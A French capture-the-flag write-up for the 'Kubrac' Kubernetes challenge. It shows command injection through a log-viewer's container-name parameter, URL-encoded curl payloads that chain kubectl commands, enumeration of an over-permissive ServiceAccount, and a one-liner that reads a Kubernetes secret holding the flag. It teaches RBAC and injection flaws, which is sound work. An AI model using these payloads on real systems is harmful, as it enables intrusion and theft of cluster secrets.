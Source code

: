 # Write-Up - Infra / Kubrac

L'objectif du challenge Kubrac est de se questionner sur la sécurité des applications Kubernetes utilisant des politiques RBAC. Beaucoup d'applications ont besoin de communiquer avec l'api-server du cluster pour monitorer (e.g. Prometheus Exporter), déployer des ressources à la volée (e.g. ArgoCD), ...

Dans ce contexte, Kubrac expose une petite application permettant de parcourir les logs des pods du namespace dans lequel il est déployé, grâce à un ServiceAccount. Toutefois ce ServiceAccount a mal été fait, et possède beaucoup trop de permissions, en particulier pour lire d'autres ressources que les logs des conteneurs de Pods. En effet, lors du debug, il est fréquent de faire un petit `kubectl get all` pour savoir si tout va bien !

En plus de cela, l'application est vulnérable à de la _command injection_ ([CWE-77](https://cwe.mitre.org/data/definitions/77.html)) sur le nom du conteneur...

## Reconnaissance de l'application

On observe rapidement qu'il existe 2 endpoints API:
- `GET /api/v1/containers` qui retourne la liste des conteneurs du namespace
- `GET /api/v1/logs?name=<name>` qui retourne les logs du conteneur donné

En soumettant autre chose qu'un nom de conteneur (en modifiant le HTML local ou en modifiant la requête), on va voir que l'application se comporte bizarrement.

On comprend assez vite que l'application semble injecter le `name` dans une commande kubectl, que l'on valide avec l'envoi d'un `name=-h`.
```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=-h" | jq -r '.data'
```

<details>
<summary>Example</summary>

```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=flip;flop" | jq -r '.data'
error: expected 'logs [-f] [-p] (POD | TYPE/NAME) [-c CONTAINER]'.
POD or TYPE/NAME is a required argument for the logs command
See 'kubectl logs -h' for help and examples
```

</details>

## Injection de commande

Pour facilement injecter des commandes et limiter le bruit, on va donc escape la commande précédente avec `>/dev/null 2>&1 ||true;`. On pourra ainsi soumettre n'importe quelle commande sans avoir à s'inquiéter du comportement de la commande précédente. D'ailleurs, on se rend compte que la commande injectée se termine par `--tail=20`, on ajoute donc le suffixe `;#`, toujours pour retirer le bruit.

Pour injecter notre payload, il va falloir l'encoder. On peut utiliser un site pour cela: [Meyerweb URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)

Vu que la réponse est un JSON, on va manipuler le résultat sous la forme `{"data":"..."}` avec `jq` en faisant `curl -s ... | jq -r '.data'`.

## Reconnaissance Kubernetes

Pour reconnaître un peu plus l'environnement, on exécute un `kubectl get all`.

<details>
<summary>Example</summary>

Payload: `>/dev/null 2>&1 ||true; kubectl get all;#`

Encoded: `%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23`

Call:
```bash
$ curl -s http://a0b1c2d3.24hiut2025.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23 | jq -r '.data'
NAME                                           READY   STATUS    RESTARTS   AGE
pod/monitoring-dep-8cae9fe2-687777959c-8xz2l   1/1     Running   0          30s
pod/popacola-merch-179c01e2-5d896ff7d9-7r4h6   1/1     Running   0          30s

NAME                              TYPE        CLUSTER-IP   EXTERNAL-IP   PORT(S)    AGE
service/monitoring-svc-f239123c   ClusterIP   None         <none>        8080/TCP   28s

NAME                                      READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/monitoring-dep-8cae9fe2   1/1     1            1           30s
deployment.apps/popacola-merch-179c01e2   1/1     1            1           30s

NAME                                                 DESIRED   CURRENT   READY   AGE
replicaset.apps/monitoring-dep-8cae9fe2-687777959c   1         1         1       30s
replicaset.apps/popacola-merch-179c01e2-5d896ff7d9   1         1         1       30s
```

</details>

On reconnaît l'environnement que le _log viewer_ nous montrait. Toutefois, nous voulons savoir ce à quoi nous avons accès afin de trouver notre bonheur !

Pour ce faire, on injecte la commande `kubectl auth can-i --list`.

```bash
$ curl -s http://a0b1c2d3.24hiut2025.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20auth%20can-i%20--list%3B%23 | jq -r ".data"
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
configmaps                                      []                                     []               [get list]
pods/log                                        []                                     []               [get list]
pods                                            []                                     []               [get list]
replicationcontrollers                          []                                     []               [get list]
secrets                                         []                                     []               [get list]
services                                        []                                     []               [get list]
daemonsets.apps                                 []                                     []               [get list]
deployments.apps                                []                                     []               [get list]
replicasets.apps                                []                                     []               [get list]
statefulsets.apps                               []                                     []               [get list]
horizontalpodautoscalers.autoscaling            []                                     []               [get list]
cronjobs.batch                                  []                                     []               [get list]
jobs.batch                                      []                                     []               [get list]
..... (truncated)
```

On se rend compte que pour une raison obscure (probablement du debug) on a accès en lecture aux secrets. On va donc les lister avec `kubectl get secret`.

```bash
$ curl -s http://a0b1c2d3.24hiut2025.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%3B%23 | jq -r ".data"
NAME            TYPE     DATA   AGE
flag-2b3b469a   Opaque   2      10m
```

Avec un seul secret, on va aller lire son contenu avec `kubectl describe secret/flag-2b3b469a`.

```bash
$ curl -s http://a0b1c2d3.24hiut2025.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20describe%20secret%2Fflag-2b3b469a%3B%23 | jq -r ".data"
Name:         flag-2b3b469a
Namespace:    ns-48e1560f
Labels:       app.kubernetes.io/component=kubrac
              app.kubernetes.io/name=monitoring
              app.kubernetes.io/part-of=kubrac
Annotations:  pulumi.com/autonamed: true

Type:  Opaque

Data
====
top-secret:  28 bytes
flag:        66 bytes
```

On va aller chercher l'attribut `flag`, qui semble être ce que nous cherchons, avec `kubectl get secret/flag-2b3b469a --template={{.data.flag}}`.

```bash
$ curl -s http://a0b1c2d3.24hiut2025.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%2Fflag-2b3b469a%20--template%3D%7B%7B.data.flag%7D%7D%3B%23 | jq -r ".data" | base64 -d
24hIUT{KubÉ®nétE5 rbã¢ å®3-p¤WÊRFùll BÙt-ÐÂNgë®ouS}
```

## TL;DR;

One-liner pour exploit l'injection de command et les permissions trop large du ServiceAccount.

```bash
curl -s http://a0b1c2d3.24hiut2025.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20%22secret%2F%24(kubectl%20get%20secret%20-o%20jsonpath%3D%27%7B.items%5B*%5D.metadata.name%7D%27)%22%20--template%3D%7B%7B.data.flag%7D%7D%7Cbase64%20-d%3B%23 | jq -r '.data'
```

On peut se faire un petit soft dans son langage favori et faire un alias sur `kubectl` pour directement faire nos calls depuis la CLI.

On peut récupérer l'attribut `top-secret` avec `kubectl get secret/flag-2b3b469a --template='{{ index .data "top-secret"}}' | base64 -d` mais on se fait Rick Roll...
